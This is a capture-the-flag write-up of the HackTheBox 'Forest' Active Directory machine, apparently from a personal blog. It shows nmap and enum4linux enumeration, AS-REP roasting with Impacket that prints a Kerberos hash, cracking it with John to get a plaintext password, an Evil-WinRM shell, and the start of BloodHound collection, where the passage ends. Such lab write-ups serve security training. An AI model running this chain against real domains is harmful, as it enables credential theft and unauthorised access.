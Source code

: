```yaml
---
layout: post
title: Forest - HTB Writeup
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-02-14
tags: [write up, hackthebox, windows]
categories: [Practice]
toc:  true
---
```


Forest is an easy Windows box with a focus on Active Directory recon rather than exploitation.

## Enumeration

First, similar to every other box, we begin with a humble nmap scan. Because this is a Windows machine, we will need to add `-Pn` to the scan.

```text
# Nmap 7.92 scan initiated as: nmap -sC -sV -p- -o allnmap -v -Pn --min-rate 1000 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.051s latency).
Not shown: 65514 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-02-08 04:47:23Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Given we have `LDAP port 389` we can use `Enum4Linux` to enumerate this LDAP service for users.

```shell
$ enum4linux -a 10.10.10.161 2> /dev/null
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Fantastic! We have a list of users we can use against other tools to see if we can get any user hashes. We can clean up this list with a simple one liner: `cat newusers| tr -d "[]" | awk -F: {'print $2'} | awk -F" " '{print $1}' > cleanusers`

```shell
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Perfect! Now we have a clean user list to run against other tools.

## Foothold

### Getting User Hashes

We can use this new user list with Impacket's `GetNPUsers.py` or `Impacket-GetNPUsers`. GetNPUsers exploits users without pre-authentication enabled, which would allow us to grab their account password hash.

```shell
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 -usersfile cleanusers htb.local/
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
.
.
.
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:8d49b0369104b38bd97f517a8c440344$530b2549fafde7dc9328efc978068556cab78af8ec4afc3025f414a367552831ce78bf76b6454474fb89a3fa93c8a6665300c45490e886dd3d3110d2f0893cb361161aab3b82518234f3e5b12d045c1ad9aea090566f71dc0c2d2a770505950f3dc263635e4abd658b9f118962fc1b33e170f6926ce28b63669a24e23c9d7747d60292004d601f4696f8cfa0f6a7505d481dc7b3b544e7534b8bf1a6ca3ba19c9f02e6c23a6624a2af2ee7c9d3fdf03b7e5af970436aba0b42293f53d35eb36519b08d22d11bc052626928206f787675d7244185ea5f11f2658f9ca4d7e79a40853f1dea796d
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Unfortunately for Alfresco but fortunately for us, svc-alfresco does not have pre-authentication enabled. We can put this output into a new file and pass it onto a cracking tool such as `John`

### Cracking Those Hashes

`John`, or otherwise known as `John the Ripper`, is a password brute force tool ot crack hashes and reveal their passwords. We can crack the hash from svc-alfresco with the following command:

```shell
$ john alfresco_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)

```

### Shell

Using `Evil-WinRM` we can use the credentials to log into a Windows Remote Management shell as the svc-alfresco user.

```shell
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> echo 'im in'
> im in
```

## Bloodhound
I used `Bloodhound` to enumerate this machine and find relationships between the users and groups. To do this you must first upload SharpHound.exe to the remote machine through `Evil-WinRM` and collect all the information you can.

![SharpHound](https://mitchelldstein.github.io/assets/images/Forest/SharpHound.png)

To get the created json files off the machine, you can use Impacket-SmbServer and connect to it through `Evil-WinRM`.